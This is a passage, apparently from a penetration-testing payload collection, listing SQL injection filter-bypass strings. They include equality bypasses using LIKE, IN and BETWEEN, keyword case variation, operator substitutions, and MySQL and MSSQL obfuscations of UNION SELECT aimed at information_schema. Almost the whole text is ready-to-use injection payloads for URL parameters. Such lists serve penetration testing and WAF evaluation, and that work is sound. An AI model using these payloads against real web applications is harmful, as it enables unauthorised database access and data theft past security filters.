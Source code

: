 ### No Equal

Bypass using LIKE/NOT IN/IN/BETWEEN

```sql
?id=1 and substring(version(),1,1)like(5)
?id=1 and substring(version(),1,1)not in(4,3)
?id=1 and substring(version(),1,1)in(4,3)
?id=1 and substring(version(),1,1) between 3 and 4
```

### Case modification
 
Bypass using uppercase/lowercase (see keyword AND)

```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```

Bypass using keywords case insensitive / Bypass using an equivalent operator

```sql
AND   -> &&
OR    -> ||
=     -> LIKE,REGEXP, BETWEEN, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING
```

### Obfuscation by DBMS

MySQL
```
1.UNION	SELECT	2	
3.2UNION	SELECT	2	
1e0UNION	SELECT	2	
SELECT\N/0.e3UNION	SELECT	2	
1e1AND-0.0UNION	SELECT	2	
1/*!12345UNION/*!31337SELECT/*!table_name*/	
{ts	1}UNION	SELECT.``	1.e.table_name	
SELECT	$.``	1.e.table_name	
SELECT{_	.``1.e.table_name}	
SELECT	LightOS	.	``1.e.table_name	LightOS	
SELECT	information_schema 1337.e.tables	13.37e.table_name	
SELECT	1	from	information_schema 9.e.table_name
```

MSSQL
```
.1UNION	SELECT	2	
1.UNION	SELECT.2alias	
1e0UNION	SELECT	2	
1e1AND-1=0.0UNION	SELECT	2	
SELECT	0xUNION	SELECT	2	
SELECT\UNION	SELECT	2	
\1UNION	SELECT	2	
SELECT	1FROM[table]WHERE\1=\1AND\1=\1	
SELECT"table_name"FROM[information_schema].[tables]	
```
